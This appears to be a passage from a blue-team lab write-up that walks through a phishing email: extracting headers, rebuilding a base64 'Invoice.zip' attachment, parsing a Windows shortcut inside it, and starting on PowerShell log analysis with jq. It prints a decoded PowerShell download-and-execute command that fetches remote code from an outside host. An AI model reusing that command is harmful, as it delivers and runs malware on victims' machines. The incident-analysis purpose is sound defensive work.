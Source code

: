 To check the recipient:
```bash
cat dump.eml | grep "To:"
```
Here we can see that the poor victim was Julianne, which email is ==`REDACTED@hotmail.com`==

Still looking at headers we can see that a 3rd party email relay has been used, you can see it filtering with:
```bash
grep -C 1 "DKIM-Signature" dump.eml
```
--> REDACTED

Reading down a little bit we can see that the message contains an attachment called "Invoice.zip" which is base 64 encoded.
Now let's combine a couple of commands to filter the encoded data, decode it and re-construct the zip file:
```bash
grep -A 18 "base64" dump.eml | tail -n +2 | base64 -di > Invoice.zip
```

Also don't forget to change the archive permission to extract it:
```bash
chmod +x Invoice.zip
```

We can now extract the content of the archive and see there is 1 file inside, but it's password protected:
```bash
unzip Invoice.zip
```
--> REDACTED
This format suggests use that the file is MS Windows shortcut.

We can find the password of the archive in the email message : REDACTED

Let's now parse the link file:
```bash
lnkparse Invoice_20230103.lnk
```

Viewing the file we can see that it contains a base 64 encoded payload
```bash
echo "aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==" | base64 -d
```

And we get this PowerShell code used execute a remote file:
```powershell
iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
```

So we are now sure that the attachment is definitely not an invoice.

<br/>

### Endpoint Security
Leaving the email behind we can now focus on the analysis of PowerShell logs contained in `powershell.json`, to aid our job we can use the *jq* tool which can help us parsing JSON data.
The basic usage is:
```bash
cat FILE_NAME.json | jq OPTION VALUES
```
